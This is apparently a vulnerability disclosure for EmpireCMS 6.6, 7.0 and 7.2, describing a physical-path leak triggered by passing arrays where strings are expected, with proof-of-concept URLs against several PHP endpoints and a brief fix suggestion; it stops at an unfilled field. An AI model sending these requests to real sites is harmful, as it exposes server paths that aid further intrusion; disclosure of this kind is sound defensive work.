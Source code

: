 >
> Return error :
> htmlspecialchars() expects parameter 1 to be string, array given in /www/e/class/connect.php on line 579
>
>
>
> Harm:
> Web site physical path leakage .
>
> conditions for execution:
> Normal access can
>
> Edition:
> EmpireCMS 6.6
> EmpireCMS 7.0
> EmpireCMS 7.2
>
> Cause the cause :
>
> htmlspecialchars() expects parameter 1 to be string,Cause the path to leak.
> addslashes() expects parameter 1 to be string, Cause the path to leak.
>
> POC :
> EmpireCMS 6.6 :
> http://domain/e/admin/tool/ShowPic.php?url[]=kongxin&pic_height[]=kongxin&pic_width[]=kongxin&picurl[]=kongxin&
> http://domain/e/action/ListInfo.php?totalnum[]=kongxin&page[]=kongxin&myorder[]=kongxin&orderby[]=kongxin&andor[]=kongxin&ph[]=kongxin&tempid[]=kongxin&line[]=kongxin&endtime[]=kongxin&starttime[]=kongxin&ztid[]=kongxin&ttid[]=kongxin&classid[]=kongxin&mid[]=kongxin&
>
> EmpireCMS 7.0 :
> http://domain/e/admin/ecmseditor/infoeditor/epage/TranMore.php?InstanceName[]=kongxin&sinfo[]=kongxin&modtype[]=kongxin&infoid[]=kongxin&filepass[]=kongxin&classid[]=kongxin&showmod[]=kongxin&
>
> EmpireCMS 7.2 :
> http://domain/e/data/ecmseditor/infoeditor/epage/TranFile.php?filesize[]=kongxin&fname[]=kongxin&InstanceName[]=kongxin&filepass[]=kongxin&classid[]=kongxin&type[]=kongxin&showmod[]=kongxin&
>
>
>
> Fix suggestions:
> Modify the application source code to avoid information leakage.
>
> ------------------------------------------
>
> [VulnerabilityType Other]
> Physical path leaks
>
> ------------------------------------------
>
> [Vendor of Product]
> EmpireCMS
>
> ------------------------------------------
>
> [Affected Product Code Base]
> EmpireCMS - 6.6
> EmpireCMS - 7.0
> EmpireCMS - 7.2
>
> ------------------------------------------
>
> [Affected Component]
